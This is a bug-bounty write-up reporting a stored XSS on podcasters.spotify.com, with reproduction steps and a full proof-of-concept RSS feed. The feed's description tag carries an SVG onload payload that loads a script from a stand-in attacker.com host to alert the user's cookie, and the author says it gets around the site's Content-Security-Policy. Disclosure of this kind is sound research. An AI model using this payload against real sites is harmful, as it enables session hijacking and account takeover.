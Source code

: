 ```yaml
---
layout: post
title: A XSS on podcasters.spotify.com 
date: 2021-04-06 16:49:47 +07:00
#modified: 2020-10-26 16:49:47 +07:00
description: A quick report of a XSS vulnerability discovered on podcasters.spotify.com.
tags:
  - bug bounty
  - spotify
  - xss
  - web vulnerability
image: /assets/img/xss-on-spotify/
---
```


In this blog post I'll share a report I wrote a few months ago for a XSS bug found on `podcasters.spotify.com`. This was submitted on [HackerOne](https://hackerone.com/) but unfortunately, it was already reported and mine was considered a duplicate, oh well, better luck next time.


## Summary
When a user submits a new podcast RSS feed for verification, the description tag inside it is not properly escaped. This results in JavaScript being executed on the page which could allow attackers to hijack users' session cookies and/or take over accounts.

## Impact
When a user submits a malicious or compromised podcast RSS feed, attackers would be able to hijack the user's account.

![alt text]({{page.image}}spotify-xss-example.png "XSS Cookie Alert Example")

Web browser network log.
![alt text]({{page.image}}spotify-xss-example2.png "XSS Example 2")

### Steps To Reproduce

1. Start by navigating to: `https://podcasters.spotify.com/submit`
2. Click on "Get Started" button
3. Submit a malicious RSS feed link (proof of concept provided)
4. The page renders whatever is in `<description></description>` 

The proof of concept simply shows the logged-in user's cookie in the web browser. I've provided a link to my custom podcast RSS feed: `https://attacker.com/feed.xml`. The **feed.xml** attachment contains HTML which includes a **x.js** Javascript which alerts the user's cookie. This was tested to check whether it was possible to get around Content-Security-Policy, and it is.

Sample of **feed.xml** (view attachment):
```xml
----[CUT]----
<description>
<![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]>
</description>
----[CUT]----
```

And **x.js** simply contains:
```
alert(document.cookie)
```


### Proof of Concept
**feed.xml**

```xml
<rss version="2.0" xmlns:itunes="http://www.itunes.com/dtds/podcast-1.0.dtd" xmlns:googleplay="http://www.google.com/schemas/play-podcasts/1.0" xmlns:atom="http://www.w3.org/2005/Atom" xmlns:media="http://search.yahoo.com/mrss/" xmlns:content="http://purl.org/rss/1.0/modules/content/">
<channel>
    <atom:link href="https://attacker.com/feed.xml" rel="self" type="application/rss+xml"/>
    <title>REKITTO</title>
    <link>https://attacker.com/feed.xml</link>
    <language>en-gb</language>
    <description><![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]></description>
    <image>
      <url>https://attacker.com/serial-itunes-logo.png</url>
      <title>XYZ</title>
      <link>https://attacker.com/</link>
    </image>
    <itunes:explicit>no</itunes:explicit>
    <itunes:type>episodic</itunes:type>
    <itunes:subtitle>True stories from the dark side of the Internet</itunes:subtitle>
    <itunes:author>Tester</itunes:author>
    <itunes:summary>Summary text here.</itunes:summary>
    <itunes:owner>
      <itunes:name>Tester</itunes:name>
      <itunes:email>user@example.com</itunes:email>
    </itunes:owner>
    <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
    <itunes:category text="Technology">
    </itunes:category>
    <item>
      <title>Streaming: The Example Show</title>
      <description>Some text here.</description>
      <pubDate>Sat, 23 May 2020 03:29:15 -0000</pubDate>
      <itunes:title>Testing</itunes:title>
      <itunes:episodeType>trailer</itunes:episodeType>
      <itunes:keywords><![CDATA[<p>More Text</p>]]></itunes:keywords>
      <itunes:author>Tester</itunes:author>
      <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
      <itunes:subtitle>Streaming: The Example Show</itunes:subtitle>
      <itunes:summary>Another summary :)</itunes:summary>
      <content:encoded>
        <![CDATA[<p>Even more encoded text</p>]]>
      </content:encoded>
      <itunes:duration>6</itunes:duration>
      <itunes:explicit>no</itunes:explicit>
      <guid isPermaLink="false"><![CDATA[dd10738e-9efg-11ea-bb2d-cf99e05d892b]]></guid>
      <enclosure url="https://attacker.com/sample.mp3" length="6" type="audio/mpeg"/>
    </item>
  </channel>
</rss>
```
